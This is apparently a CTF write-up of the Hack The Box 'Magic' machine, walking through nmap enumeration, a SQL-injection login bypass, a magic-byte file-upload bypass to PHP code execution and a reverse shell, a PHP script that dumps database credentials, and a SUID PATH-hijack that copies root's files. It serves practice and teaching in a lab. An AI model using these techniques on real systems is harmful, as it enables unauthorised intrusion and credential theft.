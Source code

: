 # Hack The Box: Magic machine write-up

This was an easy machine if you were a bit experienced in web application bugs, as the main vulnerability was a file upload that was used to get a reverse shell to the box. From there, a connection to a MySQL database was needed to obtain credentials to get the user. Finally, the privilege escalation was quite simple, a SUID binary that was calling other binaries without absolute paths, so we could change the path to get to root!

Let's dig in! The IP of the machine is ``10.10.10.185``.

### Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```bash
# Nmap 7.70 scan initiated Sat May 16 11:27:08 2020 as: nmap -p- -sV -sC -oA nmap/initial 10.10.10.185
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.062s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp    open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
4159/tcp  filtered nss
4661/tcp  filtered kar2ouche
28375/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 16 11:28:55 2020 -- 1 IP address (1 host up) scanned in 106.80 seconds
```

Given that we only have SSH on port 22 and an HTTP server on port 80 I assumed that the initial exploitation vector had to be through the web app.

#### Port 80 enumeration

We bump into what looks like a simple PHP application that is used as a gallery and can see that it has a log in page.

*Initial webpage*

![Img](images/initial.png)

*Log in page*

![Img](images/login.png)

I tried a simple SQL injection and entered username `admin` and password `' OR '1'='1` and guess what? I was in and presented with the upload page!

*Uploads page*

![Img](images/upload.png)

I first tried to upload a text file and the application checks for image extensions:

*Application blocking non-image extensions*

![Img](images/extension_check.png)

Then I tried renaming the file to have a PNG extension. However, the following message appeared, which made me suspect it was also checking the magic bytes at the beginning of the file:

*Application checking files magic bytes*

![Img](images/magic_check.png)

Finally, I decided to add the magic bytes of an JPEG file (`FF D8 FF DB`) and use the `.php.jpg` extension with PHP code after those bytes, as that can lead to command execution and bypass the extension filter at the same time. And it works!

*Image with PHP code uploaded*

![Img](images/upload_success.png)

I didn't know where it was uploaded though, so went back to the main page and checked the source code to find if the directory was disclosed. Indeed it was:

*Uploaded image directory disclosed*

![Img](images/uploads_directory.png)

From there I just accessed the path with the command I wanted and we have RCE!

*RCE from uploaded file*

![Img](images/rce.png)

I then modified the payload to include a one-liner reverse shell and set up a listener with netcat (`nc -lnvp 8001`):

*Obtaining a reverse shell*

![Img](images/reverse_shell.png)

Once in, I first upgraded my shell with `python3 -c "import pty;pty.spawn('/bin/bash')"` and started inspecting the files on the web application for sensitive information and found an interesting file: `db.php5`:

*Database connection with credentials*

![Img](images/db.png)

However, I tried to change into that use but the password wasn't valid. I thought that the password may have been in the MySQL database but tried accessing it with the `mysql` command but it wasn't installed. I then decided to use the script that was available to us and show the tables:

*Retrieving information from the database*

![Img](images/sql1.png)

Then the final payload was:

```
<?php
require 'db.php5';
try {
    $pdo = Database::connect();
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
    $stmt = $pdo->query("select * from login");
    $result = $stmt->fetch(PDO::FETCH_ASSOC);
    print_r($result);
    Database::disconnect();
} catch (PDOException $e) {
    //nothing
}
?>
```

Which gave me the user credentials:

*Retrieving user credentials from the database*

![Img](images/sql2.png)

I then did `su theseus` with password `Th3s3usW4sK1ng` and have user!

*Getting user*

![Img](images/user.png)

### Privilege Escalation

I started my linux enumeration with `linpeas.sh` and quickly saw that there was an interesting binary that belonged to root and had the SUID bit set, which meant that it was probably the privilege escalation vector.

*Interesting SUID binary*

![Img](images/suid.png)

I ran `strings` on it and found that it was calling some other commands, from relative paths.

*/bin/sysinfo strings*

![Img](images/strings.png)

A classical privilege escalation: we just needed to overwrite the path so that the system would first find our binary to run and hence we would have root command execution! Here are the steps I took:

1. Modify the path: `PATH=/tmp:$PATH`.
2. Add our script: `echo "cat /root/* > /tmp/mine.txt" > /tmp/lshw`.
3. Make it executable: `chmod +x /tmp/lshw` (otherwise it won't run).
4. Run `sysinfo`.

*Getting the root hash*

![Img](images/root.png)

We could have also run a reverse shell to another port on our machine to get a root shell but for me this was enough. Another thing was that we could have, instead of running `strings`, used `pspy` to get information about processes running and notice that whenever we run `sysinfo` this one calls `lshw` with a relative path:

*pspy to monitor processes*

![Img](images/pspy.png)

This is everything, I hope you enjoyed the writeup and learned the following lesson: use quotes with bash commands! If you liked it you can give me respect on hackthebox through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
